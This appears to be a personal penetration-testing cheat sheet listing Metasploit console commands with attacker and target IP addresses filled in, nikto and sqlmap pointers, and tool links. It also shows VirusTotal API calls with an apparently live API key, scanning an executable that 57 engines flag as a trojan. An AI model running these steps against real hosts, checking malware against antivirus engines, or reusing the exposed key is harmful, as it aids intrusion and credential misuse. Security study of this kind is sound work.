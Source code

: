 ### Metasploit
``` msfconsole ```

``` use <module> ```

``` check <ip> after module in use checks if exp ```

``` info after module in use ```

``` search <reg_module_name_expression> ```

``` set ForceExploit false ```

``` set AutoCheck false ```

``` set LHOST 95.179.242.45 ```

``` set RHOSTS 195.208.40.50 ```

``` set SRVPORT 4899 ```

``` run  ```

## SqlMap
``` https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap ```

## AV Engines
VirusTotal - ``` https://www.virustotal.com/gui/home/upload ```

```
root@cloud1:/opt/sqlmap# curl -X POST https://www.virustotal.com/vtapi/v2/file/scan -F apikey=b5b24bcfc00757dc6d4e566207d51cf97f6e0ea34f6643475cf726475b9bdf29 -F file=@myn.exe
{"md5":"d3bb436495fa55c27609acfd8397235d","permalink":"f-5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200-1713051502","resource":"5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200","response_code":1,"scan_id":"5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200-1713051502","sha1":"6c5ac1b984a859d18b8955531b46e7459eca87cc","sha256":"5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200","verbose_msg":"Scan request successfully queued, come back later for the report"}
```
## Submit a file

```curl -X POST https://www.virustotal.com/vtapi/v2/file/scan -F apikey=b5b24bcfc00757dc6d4e566207d51cf97f6e0ea34f6643475cf726475b9bdf29 -F file=@myn.exe```

## Get the report on the above submission
```curl --request GET --url "https://www.virustotal.com/vtapi/v2/file/report?apikey=b5b24bcfc00757dc6d4e566207d51cf97f6e0ea34f6643475cf726475b9bdf29&scan_id=5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200-171305150&resource=5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200"```

### Response with report url:

```
{"md5":"d3bb436495fa55c27609acfd8397235d","permalink":"https://www.virustotal.com/gui/file/5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200/detection/f-5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200-1713051502","positives":57,"resource":"5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200","response_code":1,"scan_date":"2024-04-13 23:38:22","scan_id":"5c9488072190679ef15825888b34e0486425991a451cb780e8cf1364f5bac200-1713051502","scans":{"ALYac":{"detected":true,"result":"Trojan.CryptZ.Marte.1.Gen","update":"20240413","version":"2.0.0.10"},"APEX":{"detected":true,"result":"Malicious","update":"20240413","version":"6.521"},"AVG":{"detected":true,"result":"Win32:SwPatch [Wrm]","update":"20240413","version":"23.
```

## DNS Tools

```https://dnsdumpster.com``` - Visual on services and diagrams of domain dependencies and addresss

## Other

```https://hackertarget.com```

```https://www.shodan.io```

Info ```nikto - ubuntu 20.x web vulerability scanner shell - 2024 version 2.1.5```

### Example

```nikto -C all -h https://xfr.xyz```

Info Install --> ``` apt-get install nikto -y ```

4 - Burp Suite Community Edition - ``` https://portswigger.net/burp/communitydownload``` 

5 - Malware Analysis -- ``` https://remnux.org/ ```

6 - Penetration test OS - ``` https://www.kali.org/ ```

``` https://hashcat.net/hashcat/ ``` - Advanced Pwd Recovery

### WarGames

``` https://hackthissite.org/ ```

